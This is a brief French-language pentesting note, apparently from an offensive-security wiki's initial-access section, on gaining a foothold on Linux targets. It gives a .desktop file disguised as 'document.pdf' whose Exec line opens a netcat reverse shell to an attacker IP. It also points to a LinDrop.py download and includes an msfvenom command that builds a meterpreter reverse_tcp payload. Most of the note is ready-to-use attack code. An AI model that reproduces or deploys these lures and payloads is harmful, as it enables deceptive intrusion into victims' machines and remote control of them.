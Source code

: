 Fait partie la phase de [[Initial Access/README|l'access initial]]

Le but est d'envoyer un fichier `.desktop` a notre cible et obtenir un reverse shell.

```sh
[Desktop Entry]
Type=Application
Name=document.pdf
Exec=/bin/nc -e /bin/sh 192.168.45.128 4444
Icon=/home/kali/Pictures/test.png
```

Download `LinDrop.py`at https://www.obscurechannel.com/x42/code.html

```sh
msfvenom --platform linux -p linux/x86/meterpreter/reverse_tcp LPORT=9001 LHOST=192.168.45.128 -f ef > payload
```